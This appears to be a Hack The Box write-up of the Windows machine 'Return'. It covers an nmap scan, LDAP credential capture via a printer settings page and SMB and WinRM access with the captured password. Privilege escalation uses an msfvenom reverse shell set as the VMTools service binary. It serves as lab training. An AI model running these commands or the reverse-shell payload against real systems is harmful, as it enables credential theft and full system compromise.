



# HTB Return
## OS: Windows
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.174.86
```

```bash
PORT      STATE SERVICE       VERSION                                                                              
53/tcp    open  domain        Simple DNS Plus                                                                      
80/tcp    open  http          Microsoft IIS httpd 10.0                                                             
| http-methods:                                                                                                    
|_  Potentially risky methods: TRACE                                                                               
|_http-title: HTB Printer Admin Panel                                                                              
|_http-server-header: Microsoft-IIS/10.0                                                                           
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-28 08:27:02Z)                       
135/tcp   open  msrpc         Microsoft Windows RPC                                                                
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                        
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-
Site-Name)                                                                                                         
445/tcp   open  microsoft-ds?                                                                                      
464/tcp   open  kpasswd5?                                                                                          
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                  
636/tcp   open  tcpwrapped                                                                                         
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-
Site-Name)                                                                                                         
3269/tcp  open  tcpwrapped                                                                                         
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                              
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                        
|_http-title: Not Found                                                                                            
9389/tcp  open  mc-nmf        .NET Message Framing                                                                 
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                              
|_http-title: Not Found                                                                                            
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                        
49664/tcp open  msrpc         Microsoft Windows RPC                                                                
49665/tcp open  msrpc         Microsoft Windows RPC                                                                
49666/tcp open  msrpc         Microsoft Windows RPC                                                                
49667/tcp open  msrpc         Microsoft Windows RPC                                                                
49671/tcp open  msrpc         Microsoft Windows RPC                                                                
49675/tcp open  msrpc         Microsoft Windows RPC                                                                
49677/tcp open  msrpc         Microsoft Windows RPC                                                                
49680/tcp open  msrpc         Microsoft Windows RPC                                                                
49697/tcp open  msrpc         Microsoft Windows RPC                                                                
57184/tcp open  msrpc         Microsoft Windows RPC                                                                
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows 
```

Looking at the web server on port 80 we get this:



We also find a settings page for a printer.



I'll change the server address to my IP address and open a port.

```bash
sudo nc -l 389
```

Result:
```
0*`%return\svc-printer
                      1edFg43012!!

```

I think that is a password.

## Foothold 1

I'll use crackmapexec to try to list the SMB shares.

```bash
crackmapexec smb 10.129.174.86 --shares -u 'svc-printer' -p '1edFg43012!!'
```

Result:
```
SMB         10.129.174.86   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.174.86   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.129.174.86   445    PRINTER          [+] Enumerated shares
SMB         10.129.174.86   445    PRINTER          Share           Permissions     Remark
SMB         10.129.174.86   445    PRINTER          -----           -----------     ------
SMB         10.129.174.86   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.129.174.86   445    PRINTER          C$              READ,WRITE      Default share
SMB         10.129.174.86   445    PRINTER          IPC$            READ            Remote IPC
SMB         10.129.174.86   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.129.174.86   445    PRINTER          SYSVOL          READ            Logon server share 
```

After connecting to the C$ share we can find the user flag.

```bash
smbclient -U 'svc-printer' //10.129.174.86/C$
1edFg43012!!

cd Users\svc-printer\Desktop\
get user.txt
exit
cat user.txt
```

## We got the user flag!

## Foothold 2:

Using evil-winrm we can connect to the server.

```bash
evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.174.86 "return.local0"
```

## Privilege Escalation:

I found the groups this user belongs to:
```powershell
(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf

CN=Server Operators,CN=Builtin,DC=return,DC=local
CN=Remote Management Users,CN=Builtin,DC=return,DC=local
CN=Print Operators,CN=Builtin,DC=return,DC=local

```

Searching for privilege escalation vectors for these groups I found this link:
https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

I will follow method 2.

Making the payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.142 lport=6666 -f exe >shell.exe

```

Uploading it on the target and configuring the path for VMTools:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /tmp/returnHTB/shell.exe

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\shell.exe"

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

```

Opening the listening port on our host machine:
```bash
sudo msfconsole -1
use multi/handler
set LHOST tun0
set LPORT 6666
run
```

Executing the payload:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```



And it worked! Now we can get the root flag.

```powershell
cd C:\\Users\\Administrator\\Desktop
dir
type root.txt
```

## We got the root flag!